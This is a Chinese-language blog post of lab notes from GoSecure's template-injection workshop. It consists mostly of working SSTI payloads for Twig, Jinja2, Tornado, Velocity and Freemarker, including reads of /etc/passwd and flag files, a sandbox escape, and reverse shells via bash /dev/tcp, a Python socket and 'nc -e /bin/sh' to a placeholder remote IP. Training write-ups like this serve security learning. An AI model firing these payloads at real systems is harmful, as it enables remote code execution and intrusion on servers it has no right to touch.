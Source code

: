 ```yaml
---
layout: post
title:  Learning SSTI with gosecure
subtitle: Gosecure的SSTI环境学习记录
tags: [ssti,websec]
---
```


## 环境地址
gosecure 的ssti教程地址[template-injection-workshop](https://gosecure.github.io/template-injection-workshop/#0)

实际请去掉{\\{ 和 {\% 中的\。


## LAB 1: Twig (PHP)
```
email={\{_self.env.registerUndefinedFilterCallback("exec")}}{\{_self.env.getFilter("/bin/bash -c \"/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261\"")}}&submit=
```
原理可以参考[Twig SSTI](https://github.com/EdOverflow/bugbountywiki/wiki/SSTI)。  

问题：
直接bash -i /dev/tcp/ip/port 的时候，报错"/dev/tcp no such file or directory"，搜索发现是因为使用的是exec函数，不能直接处理重定向。参考[/dev/tcp](https://stackoverflow.com/questions/36022331/bash-i-dev-tcp-127-0-0-1-1234-01)，使用`bash -c`可以成功。


## LAB 2: Jinja2 (Python)
```
name={\{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd','r').read()}}&org=1&phone=33&email=44
```
查找`subprocess.Popen`
```
{\% for item in ''.__class__.__mro__[2].__subclasses__()%}
        {\%- if item.__name__ == 'Popen' -%}
        {\{loop.index0}}{\{item}}
{\%- endif -%}
    {\% endfor %}
```

shell
```
{\{''.__class__.__mro__[2].__subclasses__()[245](["/bin/bash","-c","/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261"])}}
```

## LAB 3: Tornado (Python)

```
{\%import subprocess,socket,os%}{\{s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)}}{\{s.connect(("your_remote_ip",port))}}{\{os.dup2(s.fileno(),0)}}{\{ os.dup2(s.fileno(),1)}}{\{ os.dup2(s.fileno(),2)}}{\{p=subprocess.call(["/bin/sh","-i"])}}
```

```
{\%import subprocess%} {\{subprocess.Popen(["nc","your_remote_ip","port","-e","/bin/sh"])}}
```

## LAB 4: Velocity (Java)
猜密码猜了半天没有猜对，最后还是去看了一下代码才找到密码。  
检测：
```
#set($x=7*7)$x
```
```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('cat secret/flag.txt'))$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('nc your_rermote_ip port -e /bin/sh '))$ex.waitFor()
```

## LAB 5: Freemarker (Java)
检测：
```
${7*7}
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat secret/flag.txt") }
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("nc your_remote_ip port -e /bin/sh  ") }
```

## LAB 6: Freemaker (Sandbox escape)
```
<#list .data_model as key, object_test>

<b>Testing "${key}":</b><br/>
<#attempt>

<#assign classloader=object_test.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

Shell ! ( 
${dwf.newInstance(ec,null)("nc your_remote_ip port -e /bin/sh")}
)

<#recover>
failed
</#attempt>

<br/><br/>
</#list>
```

## 总结
经过案例练习，了解了ssti的实际场景和检测方式。实际利用一方面是积累利用方式，另一方面需要了解语言特性才有可能找到gadget。  

感谢网络上各位的分享。

* [Template Injection in Action](https://gosecure.github.io/template-injection-workshop/)
* [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)
